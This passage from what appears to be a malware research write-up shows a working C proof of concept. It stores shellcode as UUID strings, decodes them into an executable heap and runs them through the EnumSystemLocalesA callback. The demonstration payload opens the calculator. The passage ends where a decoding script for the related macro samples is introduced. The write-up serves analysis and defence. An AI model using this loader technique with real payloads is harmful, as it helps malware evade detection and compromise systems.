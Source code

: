 <table data-tab-size="8" data-paste-markdown-skip=""><tbody><tr><td data-line-number="1"></td><td>#include &lt;Windows.h&gt;</td></tr><tr><td data-line-number="2"></td><td>#include &lt;Rpc.h&gt;</td></tr><tr><td data-line-number="3"></td><td>#include &lt;iostream&gt;</td></tr><tr><td data-line-number="4"></td><td></td></tr><tr><td data-line-number="5"></td><td>#pragma comment(lib, "Rpcrt4.lib")</td></tr><tr><td data-line-number="6"></td><td></td></tr><tr><td data-line-number="7"></td><td>const char* uuids[] =</td></tr><tr><td data-line-number="8"></td><td>{</td></tr><tr><td data-line-number="9"></td><td>"6850c031-6163-636c-5459-504092741551",</td></tr><tr><td data-line-number="10"></td><td>"2f728b64-768b-8b0c-760c-ad8b308b7e18",</td></tr><tr><td data-line-number="11"></td><td>"1aeb50b2-60b2-2948-d465-488b32488b76",</td></tr><tr><td data-line-number="12"></td><td>"768b4818-4810-48ad-8b30-488b7e300357",</td></tr><tr><td data-line-number="13"></td><td>"175c8b3c-8b28-1f74-2048-01fe8b541f24",</td></tr><tr><td data-line-number="14"></td><td>"172cb70f-528d-ad02-813c-0757696e4575",</td></tr><tr><td data-line-number="15"></td><td>"1f748bef-481c-fe01-8b34-ae4801f799ff",</td></tr><tr><td data-line-number="16"></td><td>"000000d7-0000-0000-0000-000000000000",</td></tr><tr><td data-line-number="17"></td><td>};</td></tr><tr><td data-line-number="18"></td><td></td></tr><tr><td data-line-number="19"></td><td>int main()</td></tr><tr><td data-line-number="20"></td><td>{</td></tr><tr><td data-line-number="21"></td><td>HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);</td></tr><tr><td data-line-number="22"></td><td>void* ha = HeapAlloc(hc, 0, 0x100000);</td></tr><tr><td data-line-number="23"></td><td>DWORD_PTR hptr = (DWORD_PTR)ha;</td></tr><tr><td data-line-number="24"></td><td>int elems = sizeof(uuids) / sizeof(uuids[0]);</td></tr><tr><td data-line-number="25"></td><td></td></tr><tr><td data-line-number="26"></td><td>for (int i = 0; i &lt;elems; i++) {</td></tr><tr><td data-line-number="27"></td><td>RPC_STATUS status = UuidFromStringA((RPC_CSTR)uuids[i], (UUID*)hptr);</td></tr><tr><td data-line-number="28"></td><td>if (status != RPC_S_OK) {</td></tr><tr><td data-line-number="29"></td><td>printf("UuidFromStringA() != S_OK\n");</td></tr><tr><td data-line-number="30"></td><td>CloseHandle(ha);</td></tr><tr><td data-line-number="31"></td><td>return -1;</td></tr><tr><td data-line-number="32"></td><td>}</td></tr><tr><td data-line-number="33"></td><td>hptr += 16;</td></tr><tr><td data-line-number="34"></td><td>}</td></tr><tr><td data-line-number="35"></td><td>printf("[*] Hexdump: ");</td></tr><tr><td data-line-number="36"></td><td>for (int i = 0; i &lt; elems*16; i++) {</td></tr><tr><td data-line-number="37"></td><td>printf("%02X ", ((unsigned char*)ha)[i]);</td></tr><tr><td data-line-number="38"></td><td>}</td></tr><tr><td data-line-number="39"></td><td>EnumSystemLocalesA((LOCALE_ENUMPROCA)ha, 0);</td></tr><tr><td data-line-number="40"></td><td>CloseHandle(ha);</td></tr><tr><td data-line-number="41"></td><td>return 0;</td></tr><tr><td data-line-number="42"></td><td>}</td></tr></tbody></table>

When we run the executable, we can see that the `calc` shellcode is written to the heap and executes when we call `EnumSystemLocalA`:

![](https://i0.wp.com/research.nccgroup.com/wp-content/uploads/2021/01/image-2.png?resize=1024%2C516&is-pending-load=1#038;ssl=1)

Decoding the Macro
------------------

The following script was created to extract and decode the shellcode from the sample. We confirmed that script works for other related samples we have in our dataset. Whilst some of them (such as the one shared by CheckPoint) are more heavily obfuscated, the shellcode encoding (via GUIDs) is the same.
